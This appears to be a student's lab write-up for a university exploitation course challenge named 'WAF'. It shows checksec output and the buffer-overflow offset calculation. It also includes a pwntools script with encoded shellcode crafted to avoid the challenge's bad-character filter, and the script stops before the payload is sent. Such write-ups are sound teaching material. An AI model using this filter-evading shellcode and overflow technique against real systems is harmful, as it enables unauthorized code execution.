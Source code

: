 WAF
===========================

└─$ checksec WAF
[*] '/home/k-730/COMP6447/wk3/waf'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

Badchars: abcdefghijklmonpqurtsABCD/binshh
Need to create shellcode that avoids these characters

Send these characters over to the buffer.

frame size = 0x110
RIP = 8

Therefore buff attack size = 0x110 + 8 = 0x118 bytes

Please pad the shellcode with NOPS just in case!

Then overrite the return address for bufferoverflow

General overview of problems faced
-------------------------------------

* Shellcode needs some badchars to be excluded
* NOP is okay!
* Hmm, sometimes it gets triggered!!
*

Script/Command used
------------------

```
from pwn import *
import re

PROGRAM_PATH = (Path(__file__).parent / "waf").resolve().__str__()
BUF_SIZE = 0x110 + 8  # 272 + 8
# BUF_SIZE = 264

FD = 1000
# buf_len = len(buf)
# \x61\x62\x63\x64\x65\x66\x67\x68\x69\x6A\x6B\x6C\x6D\x6F\x6E\x70\x71\x75\x72\x74\x73\x41\x42\x43\x44\x2F\x62\x69\x6E\x73\x68\x68
# 61,62,63,64,65,66,67,68,69,6A,6B,6C,6D,6F,6E,70,71,75,72,74,73,41,42,43,44,2F,62,69,6E,73,68,68
badChar = "abcdefghijklmonpqurtsABCD/binshh".encode("ascii")
badChar = badChar.hex()

buf = b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d"
buf += b"\x05\xef\xff\xff\xff\x48\xbb\xcb\x84\x85\x90\xe1"
buf += b"\xd6\xd3\xc2\x48\x31\x58\x27\x48\x2d\xf8\xff\xff"
buf += b"\xff\xe2\xf4\x83\x3c\xaa\xf2\x88\xb8\xfc\xb1\xa3"
buf += b"\x84\x1c\xc0\xb5\x89\x81\xa4\xa3\xa9\xe6\xc4\xbf"
buf += b"\x84\x3b\xca\xcb\x84\x85\xbf\x83\xbf\xbd\xed\xb8"
buf += b"\xec\x85\xc6\xb6\x82\x8d\xa8\xf0\xdc\x8a\x95\xe1"
buf += b"\xd6\xd3\xc2"

buf_len = len(buf)
```